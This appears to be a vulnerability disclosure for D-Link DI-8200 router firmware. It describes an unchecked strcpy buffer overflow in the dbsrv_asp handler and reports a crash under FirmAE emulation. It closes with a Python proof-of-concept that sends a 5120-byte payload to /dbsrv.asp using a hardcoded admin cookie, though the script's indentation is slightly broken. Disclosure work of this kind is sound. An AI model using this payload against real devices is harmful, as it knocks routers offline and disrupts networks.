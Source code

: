 Firmware version:

DI_8200-16.07.26A1
	
Download address:

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

buffer overflow:
dbsrv_asp function has a buffer overflow；v32 length 1200，a1 is the passed parameter，v3 is the value of str，The length is not judged when the strcpy function is executed，This results in an overflow；
![[Pasted image 20240808182053.png]]
![[Pasted image 20240808181937.png]]
![[Pasted image 20240808182027.png]]

FirmAE simulates the firmware overflow process, which eventually causes the program crash page to be inaccessible;
![[763b646e75e80fa8437067a478f1836.png]]
![[3082963502cf0d16241f9d323881892.png]]
![[75dfe072da35cfe4dd94491a7bb04b6.png]]

POC：

```
import requests
from pwn import *
    
target_ip = "192.168.0.1"
target_port = 80
  
payload = b'a'*5120
 
url = f"http://{target_ip}/dbsrv.asp?"
 
cookie = {"wys_userid": "admin,wys_passwd=861A198CDBD425F0B9D91C42FAB93A86"}
 
headers = {
    "Accept": "application/json, text/javascript, */*",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.3    6",
    "Referer": "http://192.168.0.1/",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh,en-US;q=0.9,en;q=0.8",
    "Connection": "close"
  }
  
  params = {
      "str":{payload}
  }
 
  requests.get(url, params=params, cookies=cookie)
```

